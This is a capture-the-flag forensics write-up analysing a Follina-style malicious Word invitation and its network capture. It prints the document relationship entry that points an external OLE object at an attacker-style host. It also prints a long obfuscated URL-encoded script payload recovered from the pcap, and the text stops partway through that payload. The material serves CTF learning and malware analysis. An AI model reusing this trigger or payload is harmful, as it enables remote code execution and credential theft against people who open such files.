




# HTB Business CTF 2022 - Lina's Invitation

## Challenge

> A CEO of a startup company reported that he could no longer access his Password Vault. It seems the password has been changed, but he states not to have done so. He reports receiving a birthday invitation to a Paintball party the last week. A few days later, his Italian friend told him that her email had been hacked and never sent out those birthday invites. He fears his lost password might have something to do with that birthday invite. Their SOC team confirmed their assumptions by admitting that this document escaped their attention and did not trigger any alert. Now they want us, ENIGMA, to analyze the provided network capture they took on the day and the document sent via his friends' email.

- [forensics_linas_invitation.zip](files/forensics_linas_invitation.zip)
  - `birthday_invite.docx`
  - `capture.pcapng`

### Metadata

- Difficulty: `easy`
- Tags: `follina`, `docx`, `pcap`, `wireshark`, `powershell`
- Points: `300`
- Number of solvers: tbd

## Solution

### Got Rick Rolled by `birthday_invite.docx`

In most cases it is easier to analyze `DOCX` files than `PCAP` files, so we start with the `birthday_invitation.docx`.

We can open it in LibreOffice. **This is usually not recommended when analyzing malicious files!** During the CTF we extracted the content without opening it, but now we will do it a little bit later.



On the `https://fwesh.yonle.repl.co/` something familiar is available, guess what, a `Rick Roll`. Fun fact, I've found a [github.io site](https://aboutdavid.github.io/rickroll-links/) containing this link and other `Rick Roll` links. Unfortunately, as I write this write-up, the GitHub repository is not available, but you can check it from [Google's cache](https://webcache.googleusercontent.com/search?q=cache:lAoszVpk1JUJ:https://github.com/aboutDavid/rickroll-links+&cd=14&hl=en&ct=clnk&gl=hu).

Now we can go deeper in the `DOCX` file. These files are `ZIP` files containing mainly `XML` files.

```bash
$ mv birthday_invite.docx birthday_invite.zip
$ unzip birthday_invite.zip
$ rm birthday_invite.zip
$ tree
.
├── [Content_Types].xml
├── docProps
│   ├── app.xml
│   └── core.xml
├── _rels
└── word
    ├── document.xml
    ├── fontTable.xml
    ├── _rels
    │   └── document.xml.rels
    ├── settings.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    └── webSettings.xml
```

We can go through the files and find that `word/_rels/document.xml.rels` contains an interesting comment at the end:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId8" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/footer" Target="footer1.xml"/><Relationship Id="rId13" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/><Relationship Id="rId7" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/header" Target="header2.xml"/><Relationship Id="rId12" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/><Relationship Id="rId6" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/header" Target="header1.xml"/><Relationship Id="rId11" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/footer" Target="footer3.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/endnotes" Target="endnotes.xml"/><Relationship Id="rId10" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/header" Target="header3.xml"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/footnotes" Target="footnotes.xml"/><Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="mhtml:http://windowsliveupdater.com:80/windowsupdate.html!x-usc:http://windowsliveupdater.com:80/windowsupdate.html" TargetMode="External"/><Relationship Id="rId9" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/footer" Target="footer2.xml"/></Relationships>
<!--Relationship Id="rOlsk" Type=http://windowsliveupdater.com?Pt2=RjBsbGluYV9oNHNf-->
```

The domain `windowsliveupdater.com` is a domain frequently used in HTB challenges. The query string is interesting, seems like a `base64` string.

```bash
$ echo "RjBsbGluYV9oNHNf" | base64 -d
F0llina_h4s_
```

This might be in the middle of the flag as it does not start with `HTB{` and does not end with `}`.

There are no other interesting things in the document. Let's move on to the capture.

### `capture.pcapng` first look

Open the capture in `Wireshark`. As usually right click on a TCP packet, `Follow -> TCP Stream` and we can go through all TCP stream using the arrows in the bottom right corner.

TCP stream 3 looks interesting:



The response is `gzip` encoded, but we can see the content if we `Follow -> HTTP Stream`



It's some JavaScript code (which is commented out):

```html
<script language="javascript">
<!--
document.write(decodeURIComponent('%3C%21%64%6F%63%74%79%70%65%20%68%74%6D%6C%3E%0A%3C%68%74%6D%6C%20%6C%61%6E%67%3D%22%65%6E%22%3E%0A%3C%68%65%61%64%3E%0A%3C%74%69%74%6C%65%3E%0A%47%6F%6F%64%20%74%68%69%6E%67%20%77%65%20%64%69%73%61%62%6C%65%64%20%6D%61%63%72%6F%73%0A%3C%2F%74%69%74%6C%65%3E%0A%3C%2F%68%65%61%64%3E%0A%3C%62%6F%64%79%3E%0A%3C%70%3E%0A%49%43%41%67%49%45%70%6C%64%6D%64%79%4C%55%6C%79%5A%57%39%69%5A%6E%49%67%49%6C%73%71%58%53%42%51%5A%58%4A%75%5A%33%5A%68%64%43%42%52%59%6D%70%68%65%57%4A%75%63%53%42%51%5A%57%35%78%65%58%49%67%5A%6E%42%6C%64%6D%4E%6E%49%47%68%6D%64%6D%46%30%49%43%52%6F%5A%58%6B%69%43%69%41%67%49%43%41%6B%55%57%4A%71%59%58%6C%69%62%6E%46%51%5A%57%35%78%65%58%49%67%50%53%64%62%52%6D%78%6D%5A%33%4A%36%4C%6B%46%79%5A%79%35%47%63%6D%56%70%64%6E%42%79%51%32%4A%32%59%57%64%61%62%6D%46%75%64%48%4A%6C%58%54%6F%36%52%6E%4A%6C%61%58%4A%6C%55%48%4A%6C%5A%33%5A%7A%64%6E%42%75%5A%33%4A%4A%62%6E%6C%32%63%57%35%6E%64%6D%4A%68%55%47%35%35%65%57%39%75%63%48%67%67%50%53%42%37%4A%47%64%6C%61%48%4A%39%4F%79%52%77%65%58%5A%79%59%57%63%67%50%53%42%42%63%6D%6F%74%51%6D%39%33%63%6E%42%6E%49%45%46%79%5A%79%35%4B%63%6D%39%51%65%58%5A%79%59%57%63%37%4A%48%42%35%64%6E%4A%68%5A%79%35%44%5A%57%4A%72%62%44%31%62%51%58%4A%6E%4C%6B%70%79%62%30%56%79%5A%47%68%79%5A%6D%64%64%4F%6A%70%55%63%6D%64%47%62%47%5A%6E%63%6E%70%4B%63%6D%39%44%5A%57%4A%72%62%43%67%70%4F%79%52%77%65%58%5A%79%59%57%63%75%51%32%56%69%61%32%77%75%55%47%56%79%63%58%4A%68%5A%33%5A%75%65%57%59%39%57%30%46%79%5A%79%35%51%5A%58%4A%78%63%6D%46%6E%64%6D%35%35%55%47%35%77%64%58%4A%64%4F%6A%70%52%63%6E%4E%75%61%48%6C%6E%55%47%56%79%63%58%4A%68%5A%33%5A%75%65%57%59%37%56%6D%46%70%59%6E%68%79%4C%56%4A%72%59%32%56%79%5A%6D%5A%32%59%6D%45%67%4A%48%42%35%64%6E%4A%68%5A%79%35%78%59%6D%70%68%65%57%4A%75%63%57%5A%6E%5A%58%5A%68%64%43%67%6E%4A%79%63%72%4A%47%68%6C%65%53%73%6E%4A%79%63%70%4F%79%63%30%0A%0A%49%43%41%67%49%48%73%4B%49%43%41%67%49%43%41%67%49%43%42%4B%5A%58%5A%6E%63%69%31%4A%63%6D%56%76%59%6D%5A%79%49%43%4A%62%4B%6C%30%67%57%57%4A%69%65%47%59%67%65%58%5A%34%63%69%42%71%63%69%64%6C%63%69%41%7A%4D%6D%39%32%5A%79%77%67%61%47%5A%32%59%58%51%67%5A%6D%78%6D%61%6D%4A%71%4E%6A%51%67%59%32%4A%71%63%6D%56%6D%64%58%4A%35%65%53%35%79%61%33%49%69%43%69%41%67%49%43%41%67%49%43%41%67%4A%45%4E%69%61%6E%4A%6C%5A%6E%56%79%65%58%6C%53%61%33%49%39%4A%48%4A%68%61%54%70%71%64%6D%46%78%64%6D%55%72%4A%31%78%6D%62%47%5A%71%59%6D%6F%32%4E%46%78%4B%64%6D%46%78%59%6D%70%6D%51%32%4A%71%63%6D%56%47%64%58%4A%35%65%56%78%70%4D%53%34%77%58%47%4E%69%61%6E%4A%6C%5A%6E%56%79%65%58%6B%75%63%6D%74%79%4A%77%6F%67%49%43%41%67%66%54%73%4B%49%43%41%67%49%41%41%67%0A%3C%2F%70%3E%0A%3C%70%3E%0A%63%32%68%68%63%47%64%32%59%6D%45%67%56%6D%46%70%59%6E%68%79%4C%56%70%79%5A%32%35%6D%59%33%6C%69%64%6D%64%44%62%6D%78%35%59%6D%35%78%49%41%70%37%43%6A%77%6A%43%69%35%47%54%45%46%43%51%30%5A%57%52%67%70%59%64%6E%42%34%49%47%4A%7A%63%79%42%75%49%46%70%79%5A%32%35%6D%59%33%6C%69%64%6D%63%67%51%32%35%73%65%57%4A%75%63%53%42%6F%5A%6E%5A%68%64%43%42%6E%64%58%49%67%63%6D%74%6A%65%57%4A%32%5A%79%39%36%61%48%6C%6E%64%69%39%6D%63%47%56%32%59%32%63%76%61%6E%4A%76%58%33%46%79%65%58%5A%70%63%6D%56%73%49%48%70%69%63%57%68%35%63%67%70%4F%61%47%64%31%59%6D%55%36%49%46%64%75%5A%58%4A%78%49%46%56%75%64%6E%52%31%5A%79%41%6F%51%48%64%75%5A%58%4A%78%64%57%35%32%64%48%56%6E%4B%51%70%5A%64%6E%42%79%59%57%5A%79%4F%69%42%61%56%6B%63%4B%52%58%4A%6B%61%48%5A%6C%63%6E%45%67%55%58%4A%6A%63%6D%46%78%63%6D%46%77%64%6E%4A%6D%4F%69%42%42%59%6D%46%79%43%6B%4A%6A%5A%33%5A%69%59%57%35%35%49%46%46%79%59%33%4A%68%63%58%4A%68%63%48%5A%79%5A%6A%6F%67%51%57%4A%68%63%67%6F%67%43%69%35%52%55%6B%5A%51%52%56%5A%44%52%31%5A%43%51%51%70%47%59%32%35%71%59%57%59%67%62%69%42%68%63%6D%6F%73%49%48%56%32%63%58%46%79%59%53%42%44%59%6D%70%79%5A%55%5A%31%63%6E%6C%35%49%47%70%32%59%58%46%69%61%69%42%6E%64%57%35%6E%49%48%46%69%61%6D%46%35%59%6D%35%78%5A%69%42%75%59%58%45%67%63%6D%74%79%63%47%68%6E%63%6D%59%67%62%69%42%61%63%6D%64%75%5A%6D%4E%35%59%6E%5A%6E%49%47%4E%75%62%48%6C%69%62%6E%45%67%63%32%56%69%65%69%42%75%49%47%5A%6A%63%6E%42%32%63%33%5A%79%63%53%42%49%52%56%6B%75%43%67%70%48%64%58%5A%6D%49%47%56%79%65%58%5A%79%5A%69%42%69%59%53%42%6E%64%58%49%67%63%6D%74%6A%65%57%4A%32%5A%79%39%36%61%48%6C%6E%64%69%39%6D%63%47%56%32%59%32%64%6D%4C%32%70%79%62%31%39%78%63%6E%6C%32%61%58%4A%6C%62%43%42%36%63%6D%64%75%5A%6D%4E%35%59%6E%5A%6E%49%48%70%69%63%57%68%35%63%69%34%67%52%33%56%79%49%47%70%79%62%31%39%78%63%6E%6C%32%61%58%4A%6C%62%43%42%36%59%6E%46%6F%65%58%49%67%64%48%4A%68%63%6D%56%75%5A%33%4A%6D%49%47%34%67%5A%6E%42%6C%64%6D%4E%6E%49%48%4E%69%5A%51%70%75%49%48%52%32%61%58%4A%68%49%47%4E%75%62%48%6C%69%62%6E%45%67%62%6D%46%78%49%47%64%31%63%6D%45%67%63%33%5A%6C%63%6D%59%67%61%47%4D%67%62%69%42%71%63%6D%39%6D%63%6D%56%70%63%6D%55%67%5A%32%49%67%64%57%4A%6D%5A%79%42%6D%62%6E%5A%78%49%47%5A%77%5A%58%5A%6A%5A%79%34%67%56%6E%4D%67%5A%33%56%79%49%47%4E%75%62%48%6C%69%62%6E%45%67%64%6D%59%67%62%69%42%6C%63%6D%6C%79%5A%57%5A%79%49%47%5A%31%63%6E%6C%35%4C%43%42%32%5A%79%42%71%64%6E%6C%35%49%47%35%35%5A%6D%49%67%64%57%35%68%63%58%6C%79%43%6D%5A%6E%62%6D%56%6E%64%6D%46%30%49%47%68%6A%49%47%64%31%63%69%42%35%64%6D%5A%6E%63%6D%46%79%5A%53%42%7A%59%6D%55%67%5A%33%56%75%5A%79%42%6A%62%6D%78%35%59%6D%35%78%4C%69%41%4B%43%6B%35%68%49%48%4A%72%62%6E%70%6A%65%58%49%67%5A%58%41%67%63%33%5A%35%63%69%42%32%5A%69%42%76%63%6E%6C%69%61%69%41%6F%59%6D%55%67%62%47%4A%6F%49%48%42%75%59%53%42%33%61%47%5A%6E%49%47%64%73%59%33%49%67%5A%33%56%79%49%48%42%69%65%6E%70%75%59%58%46%6D%49%48%70%75%59%57%68%75%65%58%6C%73%4B%53%34%67%56%6D%63%67%63%57%4A%79%5A%69%42%6E%64%58%49%67%63%32%4A%35%65%57%4A%71%64%6D%46%30%4F%67%6F%4B%4B%69%42%47%63%6D%64%6D%49%47%64%31%63%69%42%78%59%6D%70%68%65%57%4A%75%63%53%42%77%5A%57%35%78%65%58%49%67%5A%32%49%67%59%32%4A%6C%5A%79%41%34%4E%44%51%7A%49%43%68%47%52%55%6C%44%51%6B%56%48%4B%53%42%69%59%53%42%75%65%58%6B%67%56%6B%4E%6D%49%43%68%47%52%55%6C%56%51%6B%5A%48%4B%51%6F%71%49%45%5A%79%5A%32%59%67%5A%33%56%79%49%47%5A%77%5A%58%5A%6A%5A%79%42%6E%62%6D%56%30%63%6D%63%67%5A%32%49%67%51%32%4A%71%63%6D%56%47%64%58%4A%35%65%53%41%6F%5A%6E%4A%6E%49%47%64%75%5A%58%52%79%5A%79%41%79%4B%51%6F%71%49%45%5A%79%5A%32%59%67%5A%33%56%79%49%47%4E%75%62%48%6C%69%62%6E%45%67%62%33%4A%32%59%58%51%67%5A%6E%4A%6C%61%58%4A%78%49%47%64%69%49%47%70%32%59%58%46%69%61%6D%59%76%65%6E%4A%6E%63%6D%56%6A%5A%58%4A%6E%63%6D%55%76%5A%58%4A%70%63%6D%56%6D%63%6C%39%31%5A%32%64%6A%5A%67%6F%71%49%45%5A%79%5A%32%59%67%5A%33%56%79%49%47%4E%75%62%48%6C%69%62%6E%45%67%5A%32%49%67%65%58%5A%6D%5A%33%4A%68%49%47%4A%68%49%47%4E%69%5A%57%63%67%4E%44%51%7A%49%43%68%5A%51%30%4A%46%52%79%6B%67%59%6D%45%67%62%6E%6C%35%49%46%5A%44%5A%69%41%6F%57%56%56%43%52%6B%63%70%0A%0A%49%43%41%67%49%48%5A%7A%49%43%67%6B%52%6E%56%79%65%58%6C%77%59%6E%46%79%4E%6A%51%75%57%58%4A%68%64%47%64%31%49%43%31%79%5A%43%41%77%4B%51%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%37%43%69%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%48%64%57%56%69%61%69%41%6E%51%57%49%67%5A%6E%56%79%65%58%6C%77%59%6E%46%79%49%47%70%75%5A%69%42%6A%65%57%35%77%63%6E%45%67%64%6D%45%67%5A%33%56%79%49%43%52%47%64%58%4A%35%65%58%42%69%63%58%49%32%4E%43%42%70%62%6D%56%32%62%6D%39%35%63%69%45%6E%43%69%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%6C%63%6D%64%6F%5A%57%45%4B%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%66%51%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%4B%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%4A%45%5A%31%63%6E%6C%35%63%47%4A%78%63%69%41%39%49%43%52%47%64%58%4A%35%65%58%42%69%63%58%49%32%4E%41%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%4B%5A%58%5A%6E%63%69%31%4A%63%6D%56%76%59%6D%5A%79%49%43%64%49%5A%6E%5A%68%64%43%41%32%4E%43%31%76%64%6D%63%67%5A%6E%56%79%65%58%6C%77%59%6E%46%79%4C%69%63%4B%49%43%41%67%49%43%41%67%49%43%42%39%43%69%41%67%49%43%41%4B%49%43%41%67%49%43%41%67%49%43%41%6A%49%45%35%35%65%57%4A%77%62%6D%64%79%49%45%56%4B%53%79%42%36%63%6E%70%69%5A%57%77%67%63%32%4A%6C%49%47%64%31%63%69%42%6D%64%58%4A%35%65%58%42%69%63%58%49%4B%49%43%41%67%49%43%41%67%49%43%41%6B%54%32%35%6D%63%6B%35%78%63%57%56%79%5A%6D%59%67%50%53%41%6B%53%58%5A%6C%5A%32%68%75%65%55%35%35%65%57%4A%77%4C%6C%5A%68%61%57%4A%34%63%69%68%62%56%6D%46%6E%51%32%64%6C%58%54%6F%36%54%58%4A%6C%59%69%77%67%4A%45%5A%31%63%6E%6C%35%63%47%4A%78%63%69%35%5A%63%6D%46%30%5A%33%55%67%4B%79%41%78%4C%43%41%77%61%7A%4D%77%4D%44%41%73%49%44%42%72%4E%44%41%70%49%43%4D%67%4B%45%56%79%5A%6E%4A%6C%61%58%4A%38%55%47%4A%36%65%6E%5A%6E%4C%43%42%46%53%6B%73%70%43%69%41%67%49%43%41%67%49%43%41%67%64%6E%4D%67%4B%43%45%6B%54%32%35%6D%63%6B%35%78%63%57%56%79%5A%6D%59%70%43%69%41%67%49%43%41%67%49%43%41%67%65%77%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%48%64%57%56%69%61%69%41%69%53%47%46%75%62%33%6C%79%49%47%64%69%49%47%35%35%65%57%4A%77%62%6D%64%79%49%47%5A%31%63%6E%6C%35%63%47%4A%78%63%69%42%36%63%6E%70%69%5A%57%77%67%64%6D%45%67%51%31%5A%52%4F%69%41%6B%51%32%56%69%63%48%4A%6D%5A%6C%5A%52%49%67%6F%67%49%43%41%67%49%43%41%67%49%48%30%4B%49%43%41%67%49%43%41%67%49%43%41%4B%49%43%41%67%49%43%41%67%49%43%42%4B%5A%58%5A%6E%63%69%31%4A%63%6D%56%76%59%6D%5A%79%49%43%4A%47%64%58%4A%35%65%58%42%69%63%58%49%67%65%6E%4A%36%59%6D%56%73%49%47%56%79%5A%6E%4A%6C%61%58%4A%78%49%47%35%6E%49%44%42%72%4A%43%67%6B%54%32%35%6D%63%6B%35%78%63%57%56%79%5A%6D%59%75%52%32%4A%47%5A%32%56%32%59%58%51%6F%49%6B%73%6B%4B%46%74%57%59%57%64%44%5A%32%56%64%4F%6A%70%47%64%6D%31%79%4B%6A%49%70%49%69%6B%70%49%67%6F%4B%49%43%41%67%49%43%41%67%49%43%41%6A%49%46%42%69%59%32%77%67%5A%6E%56%79%65%58%6C%77%59%6E%46%79%49%47%64%69%49%45%56%4B%53%79%42%76%61%48%4E%7A%63%6D%55%4B%49%43%41%67%49%43%41%67%49%43%42%62%52%6D%78%6D%5A%33%4A%36%4C%6B%56%6F%59%57%64%32%65%6E%49%75%56%6D%46%6E%63%6D%56%69%59%30%5A%79%5A%57%6C%32%63%48%4A%6D%4C%6C%70%75%5A%57%5A%31%62%6E%6C%64%4F%6A%70%51%59%6D%4E%73%4B%43%52%47%64%58%4A%35%65%58%42%69%63%58%49%73%49%44%41%73%49%43%52%50%62%6D%5A%79%54%6E%46%78%5A%58%4A%6D%5A%69%77%67%4A%45%5A%31%63%6E%6C%35%63%47%4A%78%63%69%35%5A%63%6D%46%30%5A%33%55%70%43%69%41%67%49%43%41%67%49%43%41%67%43%69%41%67%49%43%41%67%49%43%41%67%49%79%42%55%63%6D%63%67%62%6E%46%78%5A%58%4A%6D%5A%69%42%69%63%79%42%53%61%33%5A%6E%52%33%56%6C%63%6D%35%78%49%48%4E%6F%59%58%42%6E%64%6D%4A%68%43%69%41%67%49%43%41%67%49%43%41%67%4A%46%4A%72%64%6D%64%48%64%57%56%79%62%6E%46%4F%63%58%46%6C%49%44%30%67%56%48%4A%6E%4C%55%4E%6C%59%6E%42%4F%63%58%46%6C%63%6D%5A%6D%49%48%68%79%5A%57%46%79%65%54%4D%79%4C%6E%46%35%65%53%42%53%61%33%5A%6E%52%33%56%6C%63%6D%35%78%43%69%41%67%49%43%41%67%49%43%41%67%43%69%41%67%49%43%41%67%49%43%41%67%64%6E%4D%67%4B%43%52%44%59%6D%70%79%5A%55%5A%31%63%6E%6C%35%4D%7A%4A%76%64%6D%63%70%43%69%41%67%49%43%41%67%49%43%41%67%65%77%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%6B%55%47%35%35%65%55%5A%6E%61%47%38%67%50%53%42%53%65%6E%5A%6E%4C%56%42%75%65%58%6C%48%64%57%56%79%62%6E%46%47%5A%32%68%76%49%43%52%50%62%6D%5A%79%54%6E%46%78%5A%58%4A%6D%5A%69%41%6B%55%6D%74%32%5A%30%64%31%5A%58%4A%75%63%55%35%78%63%57%55%67%4D%7A%49%4B%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%43%69%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%45%70%6C%64%6D%64%79%4C%55%6C%79%5A%57%39%69%5A%6E%49%67%4A%31%4A%36%64%6D%64%6E%64%6D%46%30%49%44%4D%79%4C%57%39%32%5A%79%42%75%5A%6D%5A%79%65%6D%39%35%62%43%42%77%62%6E%6C%35%49%47%5A%6E%61%47%38%75%4A%77%6F%67%49%43%41%67%49%43%41%67%49%48%30%4B%49%43%41%67%49%43%41%67%49%43%42%79%65%57%5A%79%43%69%41%67%49%43%41%67%49%43%41%67%65%77%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%6B%55%47%35%35%65%55%5A%6E%61%47%38%67%50%53%42%53%65%6E%5A%6E%4C%56%42%75%65%58%6C%48%64%57%56%79%62%6E%46%47%5A%32%68%76%49%43%52%50%62%6D%5A%79%54%6E%46%78%5A%58%4A%6D%5A%69%41%6B%55%6D%74%32%5A%30%64%31%5A%58%4A%75%63%55%35%78%63%57%55%67%4E%6A%51%4B%49%43%41%67%49%43%41%67%49%43%41%67%49%43%41%67%43%69%41%67%49%43%41%67%49%43%41%67%49%43%41%67%49%45%70%6C%64%6D%64%79%4C%55%6C%79%5A%57%39%69%5A%6E%49%67%4A%31%4A%36%64%6D%64%6E%64%6D%46%30%49%44%59%30%4C%57%39%32%5A%79%42%75%5A%6D%5A%79%65%6D%39%35%62%43%42%77%62%6E%6C%35%49%47%5A%6E%61%47%38%75%4A%77%6F%67%49%43%41%67%49%43%41%67%49%48%30%4B%43%69%41%67%49%43%41%67%49%43%41%67%49%79%42%4F%65%58%6C%69%63%47%35%6E%63%69%42%46%53%6B%73%67%65%6E%4A%36%59%6D%56%73%49%48%4E%69%5A%53%42%6E%64%58%49%67%5A%33%56%6C%63%6D%35%78%49%48%42%75%65%58%6B%67%5A%6D%64%6F%62%77%6F%67%49%43%41%67%49%43%41%67%49%43%52%51%62%6E%6C%35%52%6D%64%6F%62%30%35%78%63%57%56%79%5A%6D%59%67%50%53%41%6B%53%58%5A%6C%5A%32%68%75%65%55%35%35%65%57%4A%77%4C%6C%5A%68%61%57%4A%34%63%69%68%62%56%6D%46%6E%51%32%64%6C%58%54%6F%36%54%58%4A%6C%59%69%77%67%4A%46%42%75%65%58%6C%47%5A%32%68%76%4C%6C%6C%79%59%58%52%6E%64%53%41%72%49%44%45%73%49%44%42%72%4D%7A%41%77%4D%43%77%67%4D%47%73%30%4D%43%6B%67%49%79%41%6F%52%58%4A%6D%63%6D%56%70%63%6E%78%51%59%6E%70%36%64%6D%63%73%49%45%56%4B%53%79%6B%4B%49%43%41%67%49%43%41%67%49%43%42%32%63%79%41%6F%49%53%52%51%62%6E%6C%35%52%6D%64%6F%62%30%35%78%63%57%56%79%5A%6D%59%70%43%69%41%67%49%43%41%67%49%43%41%67%65%77%6F%67%49%43%41%67%49%43%41%67%49%43%41%67%49%43%42%48%64%57%56%69%61%69%41%69%53%47%46%75%62%33%6C%79%49%47%64%69%49%47%35%35%65%57%4A%77%62%6D%64%79%49%47%64%31%5A%58%4A%75%63%53%42%77%62%6E%6C%35%49%47%5A%6E%61%47%38%75%49%67%6F%67%49%43%41%67%49%43%41%67%49%48%30%4B%49%43%41%67%49%43%41%67%49%43%41%4B%49%43%41%67%49%43%41%67%49%43%42%4B%5A%58%5A%6E%63%69%31%4A%63%6D%56%76%59%6D%5A%79%49%43%4A%48%64%57%56%79%62%6E%45%67%63%47%35%35%65%53%42%6D%5A%32%68%76%49%48%70%79%65%6D%4A%6C%62%43%42%6C%63%6D%5A%79%5A%57%6C%79%63%53%42%75%5A%79%41%77%61%79%51%6F%4A%46%42%75%65%58%6C%47%5A%32%68%76%54%6E%46%78%5A%58%4A%6D%5A%69%35%48%59%6B%5A%6E%5A%58%5A%68%64%43%67%69%53%79%51%6F%57%31%5A%68%5A%30%4E%6E%5A%56%30%36%4F%6B%5A%32%62%58%49%71%4D%69%6B%69%4B%53%6B%69%43%67%6F%67%49%43%41%67%49%43%41%67%49%43%4D%67%55%47%4A%6A%62%43%42%77%62%6E%6C%35%49%47%5A%6E%61%47%38%67%5A%32%49%67%52%55%70%4C%49%47%39%6F%63%33%4E%79%5A%51%6F%67%49%43%41%67%49%43%41%67%49%46%74%47%62%47%5A%6E%63%6E%6F%75%52%57%68%68%5A%33%5A%36%63%69%35%57%59%57%64%79%5A%57%4A%6A%52%6E%4A%6C%61%58%5A%77%63%6D%59%75%57%6D%35%6C%5A%6E%56%75%65%56%30%36%4F%6C%42%69%59%32%77%6F%4A%46%42%75%65%58%6C%47%5A%32%68%76%4C%43%41%77%4C%43%41%6B%55%47%35%35%65%55%5A%6E%61%47%39%4F%63%58%46%6C%63%6D%5A%6D%4C%43%41%6B%55%47%35%35%65%55%5A%6E%61%47%38%75%57%58%4A%68%64%47%64%31%4B%51%6F%4B%49%43%41%67%49%43%41%67%49%43%41%6A%49%46%6C%75%61%47%46%77%64%53%42%6D%64%58%4A%35%65%58%42%69%63%58%49%67%64%6D%45%67%64%6D%63%6E%5A%69%42%69%61%6D%45%67%5A%33%56%6C%63%6D%35%78%43%69%41%67%49%43%41%67%49%43%41%67%4A%45%64%31%5A%58%4A%75%63%56%56%75%59%58%46%35%63%69%41%39%49%43%52%51%5A%58%4A%75%5A%33%4A%48%64%57%56%79%62%6E%45%75%56%6D%46%70%59%6E%68%79%4B%46%74%57%59%57%64%44%5A%32%56%64%4F%6A%70%4E%63%6D%56%69%4C%43%41%77%4C%43%41%6B%55%47%35%35%65%55%5A%6E%61%47%39%4F%63%58%46%6C%63%6D%5A%6D%4C%43%41%6B%5